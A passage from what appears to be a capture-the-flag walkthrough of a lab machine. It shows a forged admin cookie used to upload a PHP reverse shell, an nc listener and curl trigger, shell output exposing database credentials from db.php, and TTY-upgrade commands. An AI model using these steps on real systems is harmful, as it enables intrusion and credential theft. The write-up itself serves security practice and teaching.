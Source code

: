 ```
Cookie: user=86575; role=super admin
Connection: close

------WebKitFormBoundaryQG5MQDvEzdbIdQ1i
Content-Disposition: form-data; name="name"

evil2
------WebKitFormBoundaryQG5MQDvEzdbIdQ1i
Content-Disposition: form-data; name="fileToUpload"; filename="php-reverse-shell.php"
Content-Type: text/php

<?php
...
?>
------WebKitFormBoundaryQG5MQDvEzdbIdQ1i--
```

We upload this as `php-reverse-shell.php`.  Now we run the classic `nc6 -nlvp 1234` in one tab, and in another, run `curl http://oopsie/uploads/php-reverse-shell.php`.  In the listener tab, we have a reverse shell!

Now we are in, let's see where we are and what is here:
```bash
www-data@oopsie:/var/www/html/cdn-cgi/login$ pwd
pwd
/var/www/html/cdn-cgi/login
www-data@oopsie:/var/www/html/cdn-cgi/login$ ls
ls
admin.php  db.php  index.php  script.js
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat db.php
cat db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```

We log in as our friend Bob to actually run the executable:
```bash
$ su robert
su: must be run from a terminal
```

Okay, well we can do some tricks to the web shell to make it a little nicer:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Note: since completing this box, I have found another way of doing this:
```bash
SHELL=/bin/bash script -q /dev/null
Ctrl-Z
stty raw -echo
fg
reset
xterm
```
